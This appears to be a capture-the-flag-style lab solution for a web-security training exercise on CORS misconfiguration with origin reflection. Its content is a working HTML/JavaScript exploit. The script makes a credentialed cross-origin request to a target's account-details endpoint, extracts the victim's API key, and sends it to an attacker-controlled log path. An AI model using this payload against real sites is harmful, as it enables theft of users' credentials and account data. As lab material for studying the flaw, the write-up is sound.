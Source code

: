 # Lab: CORS vulnerability with basic origin reflection
## Description
NA

## Solution
```html
<html>
<head></head>
<body>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://target.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var obj = JSON.parse(this.responseText);
location='/log?key='+obj.apikey;
};
</script>
</body>
</html>
```